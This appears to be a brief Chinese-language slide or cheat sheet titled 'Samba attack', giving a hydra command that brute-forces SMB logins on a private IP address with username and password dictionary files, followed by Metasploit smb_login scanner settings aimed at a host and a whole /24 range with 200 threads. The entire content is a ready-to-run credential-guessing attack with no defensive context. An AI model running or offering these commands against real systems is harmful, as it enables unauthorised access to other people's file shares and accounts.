

# samba攻击
 hydra -L /root/桌面/dictionary/user.txt -P /root/桌面/dictionary/pass.txt smb://192.168.31.23

use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.1.1 /192.168.1.0/24
set THREADS 200
exploit